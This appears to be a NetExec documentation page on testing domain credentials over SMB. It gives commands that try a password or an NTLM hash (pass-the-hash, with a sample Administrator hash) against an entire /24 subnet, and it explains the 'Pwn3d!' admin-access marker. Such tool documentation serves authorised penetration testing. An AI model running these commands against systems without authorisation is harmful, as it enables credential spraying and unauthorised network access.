 # Checking Credentials (Domain)

### Authentication

* Failed logins result in a \[-]
* Successful logins result in a \[+] Domain\Username:Password

{% hint style="info" %}
Code execution results in a (Pwn3d!) added after the login confirmation. With SMB protocol, most likely your compromised user is in the local administrators group.
{% endhint %}

```bash
    SMB         192.168.1.101    445    HOSTNAME          [+] DOMAIN\Username:Password (Pwn3d!)
```

The following checks will attempt authentication to the entire /24 though a single target may also be used.

{% hint style="warning" %}
If NTLM authentication is not available, Kerberos requires the hostname and domain name instead of an IP address.
{% endhint %}

### User/Password

```bash
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
```

### User/Hash

After obtaining credentials such as\
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::\
you can use both the full hash or just the nt hash (second half)

```bash
nxc smb 192.168.1.0/24 -u UserNAme -H 'LM:NT'
nxc smb 192.168.1.0/24 -u UserNAme -H 'NTHASH'
nxc smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
nxc smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```
